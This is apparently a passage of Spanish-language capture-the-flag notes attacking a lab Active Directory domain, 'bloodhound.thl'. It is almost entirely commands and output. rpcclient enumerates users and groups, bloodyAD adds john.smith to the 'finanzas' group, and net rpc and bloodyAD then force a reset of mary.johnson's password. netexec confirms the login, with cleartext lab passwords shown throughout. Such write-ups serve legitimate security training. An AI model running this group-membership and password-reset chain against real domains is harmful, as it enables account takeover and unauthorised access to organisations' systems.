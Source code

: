 
rpcclient $> enumdomusers
user:[Administrador] rid:[0x1f4]
user:[Invitado] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[michael.jones] rid:[0x454]
user:[john.smith] rid:[0x455]
user:[mary.johnson] rid:[0x457]
user:[robert.williams] rid:[0x458]
user:[patricia.brown] rid:[0x45a]


rpcclient $> enumdomgroups
group:[DnsUpdateProxy] rid:[0x44e]
group:[finanzas] rid:[0x456]


## Antes de Agregar
rpcclient $> querygroupmem 0x456

### Agregamos al usuario john.smith

bloodyAD --host dc.bloodhound.thl -d bloodhound.thl -u 'john.smith' -p 'Rk436\#Z4&' add groupMember FINANZAS john.smith


## Despues de agregar de Agregar
rpcclient $> querygroupmem 0x456
        rid:[0x455] attr:[0x7]

rpcclient $> queryuser 0x455
        User Name   :   john.smith
        Full Name   :   John Smith
        Home Drive  :
        Dir Drive   :
        user_rid :      0x455

------------------------------------------------------------------------

## Ahora el grupo Finanzas tiene privilegios sobre los usuario de mary.johnson


net rpc password "mary.johnson" "Patito12345" -U "bloodhound.thl"/"john.smith"%"Rk436\#Z4&" -S 192.168.56.105


---bloodyAD --host dc.bloodhound.thl -d bloodhound.thl -u 'john.smith' -p 'Rk436\#Z4&' set password MARY.JOHNSON Abc123456@    



netexec smb 192.168.56.105 -u mary.johnson -p 'Patito12345'

SMB         192.168.56.105  445    ELEVATOR         [*] Windows Server 2022 Build 20348 x64 (name:ELEVATOR) (domain:bloodhound.thl) (signing:True) (SMBv1:False) 
SMB         192.168.56.105  445    ELEVATOR         [+] bloodhound.thl\mary.johnson:Patito12345 
                                                                                                                                                                                                                                                  